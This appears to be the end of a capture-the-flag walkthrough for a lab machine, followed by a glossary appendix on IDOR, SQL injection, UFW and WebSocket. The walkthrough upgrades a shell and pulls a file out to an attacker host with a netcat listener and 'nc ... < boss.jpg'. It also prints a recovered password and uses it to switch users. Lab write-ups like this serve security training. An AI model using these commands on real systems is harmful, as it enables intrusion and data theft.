$ python3 -c 'import pty; pty.spawn("/bin/bash")'
sandra@tonhotel:/home/gilbert$ export TERM=xterm
sandra@tonhotel:/home/gilbert$ cd ~
sandra@tonhotel:~$ ls
note.txt  Pictures  user.txt

sandra@tonhotel:~$ cat note.txt
Tasks
-give boss access to home server, in exchange for a few nights break (DONE)
-get bags and stash ready
-talk to smuggler, see if he can get me a job out of the city and away from jojo's people

sandra@tonhotel:~$ sudo -l
[sudo] password for sandra: anywherebuthere

Matching Defaults entries for sandra on tonhotel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sandra may run the following commands on tonhotel:
    (root) /usr/bin/systemctl stop tonhotel
    (root) /usr/bin/systemctl start tonhotel
sandra@tonhotel:~$ 
```

> **Switch User with Internal Logic**
> 

```bash
sandra@tonhotel:~$ ls -lsa Pictures
ls -lsa Pictures
total 40
 4 drwxrwx--- 2 sandra sandra  4096 Sep 10  2023 .
 4 drwxr-xr-x 3 sandra sandra  4096 Sep 10  2023 ..
32 -rw-rw---- 1 sandra sandra 32637 Sep  7  2023 boss.jpg
sandra@tonhotel:~$ 
```

`nc -l -p 80 > boss.jpg`

```bash
sandra@tonhotel:~$ nc -w 3 10.2.37.37 80 < Pictures/boss.jpg
```


**CREDENTIAL:**

```bash
jojo: kingofhellskitchen
```

```bash
sandra@tonhotel:~$ su jojo
su jojo
Password: kingofhellskitchen

$ whoami
whoami
jojo
$ id
id
uid=1003(jojo) gid=1003(jojo) groups=1003(jojo)
```

# Appendix

## IDOR (Insecure Direct Object Reference)

<aside>
💡

IDOR (Insecure Direct Object Reference) is a type of access control vulnerability in cybersecurity where an application inadvertently exposes references to internal objects (like files, databases, or user IDs) in a way that allows unauthorized users to access or modify them directly. This vulnerability arises when sensitive objects are accessible via predictable references, such as sequential user IDs, without proper authorization checks. In an IDOR vulnerability, an attacker can manipulate an object reference (such as a URL parameter or form input) to gain unauthorized access to data or functionality that belongs to another user or system resource. This occurs because the application does not properly verify whether the user requesting the resource is authorized to access it.

</aside>

## SQL Injection (SQLi)

<aside>
💡

SQL Injection (SQLi) is a type of cyberattack where an attacker inserts or "injects" malicious SQL code into a query to manipulate a database. The attacker can exploit vulnerabilities in applications that do not properly sanitize user inputs. This can allow the attacker to bypass authentication, retrieve, modify, or delete sensitive data, or even execute administrative operations on the database.

</aside>

## UFW (Uncomplicated Firewall)

<aside>
💡

UFW is a frontend for managing firewall rules in Linux systems, specifically as a simplified interface for iptables, which is the underlying firewall mechanism in many Linux distributions. UFW makes it easier to configure network rules to allow or block traffic based on ports, protocols, or IP addresses.

</aside>

## WebSocket

<aside>
💡

A WebSocket is a communication protocol that enables a persistent, full-duplex connection between a client (such as a web browser) and a server. This allows for real-time data exchange between the client and server without the need for frequent HTTP requests. Unlike traditional HTTP, which follows a request-response model where the client requests data and the server responds, WebSockets allow data to be sent in both directions (client to server and server to client) at any time, once the connection is established.

</aside>